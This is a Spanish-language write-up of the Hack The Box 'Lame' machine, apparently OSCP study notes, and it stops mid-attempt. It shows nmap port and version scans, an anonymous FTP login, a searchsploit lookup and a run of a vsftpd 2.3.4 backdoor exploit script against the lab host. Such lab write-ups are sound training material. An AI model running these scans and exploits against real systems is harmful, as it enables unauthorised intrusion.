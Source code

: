```yaml
---
layout: post
title: Hackthebox Lame - OSCP
category: htb,oscp,hackthebox
permalink: "blog/lame"
published: yes
---
```


Este post de la máquina Lame sera una intrusión utilizando metasploit y `sin metasploit`


# Enumeración

Primeramente  tenemos que  comprobar que la máquina este activa y para esto lanzaremos un ping a a  la máquina `ping -c 10.10.10.3`.

```console
root@rebcesp:/home/rebcesp/htb# ping -c 1 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=38.7 ms

--- 10.10.10.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 38.732/38.732/38.732/0.000 ms
```
Podemos ver que el ttl=63 pertenece a una máquina linux, podemos guiarnos a través de esta  tabla:

<img class="differentSize70" src="/assets/img/ttlTabla.png" alt="Foto1" style="margin:auto; display:block;">

Vamos a proceder a enumerar los puertos `TCP`, utilizando la siguiente sintaxis de nmap:
`nmap -p- -sS --min-rate 5000 --open -T5 -vvv -Pn -n 10.10.10.3`

```console
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63
```

Ya que tenemos los puertos, vamos a buscar las versiones de cada uno de ellos y analizarlos para ver si alguno es explotable, lo guardaremos en formato nmap con el parametro -oN targeted para después trabajar con expresiones regulares.

`nmap -sC -sV -p21,22,139,445,3632 -oN targeted` 

```console
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h57m03s, deviation: 2h49m45s, median: -3d02h57m06s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-05-07T04:04:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
## Expresión regular -oN targetd

```console
root@rebcesp:/home/rebcesp/htb/Lame/nmap# cat targeted | grep -oP '\d{1,5}/tcp.*'
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```



Intentaremos acceder por el protocolo FTP que se encuentra en el puerto 21, y nos detalla que el acceso al login es `Anonymous`, esto significa que no requiere de contraseña, pero al acceder no encontramos ningun directorio es decir esta `vacío`, entonces lo descartamos y continuamos analizando los siguientes puertos.

EL comando utilizado sería este

```console
root@rebcesp:/home/rebcesp/htb/Lame/nmap# ftp 10.10.10.3 
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:rebcesp): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```
No nos olvidemos que puerto 21/tcp FTP tiene la version `vsftpd 2.3.4` buscaremos algun exploit para acceder manualmente sin usar `metasploit`. Lo buscamos rápidamente con searchsploit

```console
root@rebcesp:/home/rebcesp/htb/Lame/nmap# searchsploit vsftpd 2.3.4
--------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
--------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Buscamos un exploit en algun repositorio de github y encontramos algunos de ellos que utilizamos , la  vulnerabilidad de esta versión se basa en una `sonrisa :)` si lees el código del exploit podras darte cuenta que se intenta aunteticar con una carita feliz. De todos modos al lanzar el exploit al target no funciona.
Se queda pensando...

```console
root@rebcesp:/home/rebcesp/htb/Lame/exploits# python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```

